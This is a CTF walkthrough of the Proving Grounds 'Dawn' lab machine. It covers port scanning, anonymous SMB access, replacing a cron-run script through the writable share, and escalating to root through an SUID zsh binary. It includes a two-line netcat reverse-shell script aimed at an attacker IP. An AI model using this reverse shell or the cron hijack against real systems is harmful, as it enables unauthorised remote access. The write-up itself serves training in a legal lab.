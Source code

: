```yaml
---
title: "Proving grounds Play: Dawn"
layout: post
date: 2023-09-23 02:00
categories: writeup
---
```


Proving grounds Play - Dawn CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE     VERSION
80/tcp   open  http        Apache httpd 2.4.38 ((Debian))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.5.5-10.3.15-MariaDB-1
```

## Web PORT: 80

### Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/Dawn/dir.png)

### Logs

![img](/assets/images/CTF/Proving_Grounds/Dawn/logs.png)

## SMB Enumeration

```sh
smbclient -L //192.168.175.11/ -N
```

![img](/assets/images/CTF/Proving_Grounds/Dawn/smb1.png)

As per the `management.log` file there is a cron job running on `ITDEPT` folder, and in SMB we have access to the ITDEPT folder.

```log
2020/08/12 09:03:02 [31;1mCMD: UID=1000 PID=939    | /bin/sh -c /home/dawn/ITDEPT/product-control [0m
```

Create file named `product-control` add a reverse shell code to the file and upload it in the SMB server.

```sh
#!/bin/bash
nc -c bash 192.168.45.223 1234
```

So when the cronjob runs the script we will get the reverse shell.

![img](/assets/images/CTF/Proving_Grounds/Dawn/smb2.png)

Wait for few seconds for the cron job to run.

![img](/assets/images/CTF/Proving_Grounds/Dawn/shell.png)

**Initial Foothold Obtained**

## Privilege Escalation

Check the user permissions `sudo -l` the user  `Dawn` has permission to run `/usr/bin/msql` without password. But unfortunately it didn't work.

### SUIDs

```sh
dawn@dawn:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/sbin/mount.cifs
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/su
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/sudo
/usr/bin/mount
/usr/bin/zsh #Odd to be here
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chfn
```

The SUID `zsh` is exploitable, direct to GTFO bins and find the exploit.

![img](/assets/images/CTF/Proving_Grounds/Dawn/root.png)

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).